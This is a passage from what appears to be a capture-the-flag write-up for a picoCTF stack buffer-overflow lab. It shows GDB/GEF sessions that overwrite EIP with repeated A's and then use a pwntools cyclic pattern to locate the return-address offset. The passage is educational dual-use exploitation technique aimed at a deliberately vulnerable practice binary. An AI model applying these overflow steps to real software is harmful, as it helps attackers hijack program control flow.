 Analyzing this breakpoint, if you look at the arrow on the assembly code, you can see that its address is the exact same as the `$eip` (`0x80492d7`). Let's try overflowing this register by passing an unhealthy amount of `A`s into the program:

```text
gef➤  r
Starting program: /home/kali/pico22/buffer-overflow-1/vuln 
Please enter your string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Okay, time to return... Fingers Crossed... Jumping to 0x41414141

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x41      
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0x41      
$edx   : 0xffffffff
$esp   : 0xffffd0f0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0x1       
$edi   : 0x80490e0  →  <_start+0> endbr32 
$eip   : 0x41414141 ("AAAA"?)
...
─────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x41414141
─────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x41414141 in ?? (), reason: SIGSEGV
```

Look what happened: our program threw a SIGSEGV (segmentation) fault, as it is trying to reference the address `0x41414141`, which doesn't exist! This is because our `$eip` was overwritten by all our `A`s (`0x41` in ASCII = `A` in text).

### Part III: Smashing the Stack (with finesse)

Although we've managed to smash the stack, we still dont' know the offset (**how many** `A`s we need to pass in order to reach the `$eip`). To solve this problem, we can use the pwntools `cyclic` command, which creates a string with a recognizable cycling pattern for it to identify:

```text
gef➤  shell cyclic 150
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
gef➤  r
Starting program: /home/kali/pico22/buffer-overflow-1/vuln 
Please enter your string: 
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma
Okay, time to return... Fingers Crossed... Jumping to 0x6161616c

Program received signal SIGSEGV, Segmentation fault.
0x6161616c in ?? ()
───────────────────────────────────────────────────────────────── registers ────
$eax   : 0x41      
$ebx   : 0x6161616a ("jaaa"?)
$ecx   : 0x41      
$edx   : 0xffffffff
$esp   : 0xffffd0f0  →  "maaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaaya[...]"
$ebp   : 0x6161616b ("kaaa"?)
$esi   : 0x1       
$edi   : 0x80490e0  →  <_start+0> endbr32 
$eip   : 0x6161616c ("laaa"?)
...
─────────────────────────────────────────────────────────────── code:x86:32 ────
```